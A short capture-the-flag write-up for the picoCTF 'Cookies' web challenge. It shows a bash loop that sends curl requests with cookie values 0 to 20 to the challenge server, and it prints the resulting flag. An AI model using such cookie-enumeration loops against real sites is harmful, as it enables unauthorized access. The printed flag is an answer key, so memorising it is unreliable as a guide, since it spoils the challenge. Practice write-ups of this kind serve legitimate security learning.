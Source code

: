 ## Cookies

# objetivo
- Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)

# Hints
- 

# solucion
``` bash 
(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -S http://mercury.picoctf.net:6418/check -H "Cookie: name=$i"; done | grep picoCTF
<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>

```
# bandera
- picoCTF{3v3ry1_l0v3s_c00k135_88acab36}